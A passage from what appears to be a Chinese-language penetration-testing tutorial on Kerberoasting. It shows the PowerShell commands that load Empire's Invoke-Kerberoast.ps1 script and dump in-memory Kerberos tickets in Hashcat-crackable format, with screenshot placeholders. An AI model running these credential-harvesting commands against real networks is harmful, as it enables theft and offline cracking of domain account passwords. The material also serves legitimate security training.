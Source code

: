 ![截图](acadf73b3b68941f7e0fc62c9053216b.png)

#### 3.Empire 导出票据

也可以使用 Empire 下的 `Invoke-Kerberoast.ps1` 脚本，可以将内存中的票据以 Hashcat 或 John 能破解的格式打印出来。如下命令，将内存中的票据以Hashcat 能破解的格式打印出来。

```
Import-Module .\Invoke-Kerberoast.ps1;
Invoke-Kerberoast -outputFormat hashcat
```

如图所示，使用 Invoke-Kerberoast.ps1 脚本导出内存中的票据。

![截图](49583517a2201e8f045649f67097507b.png)
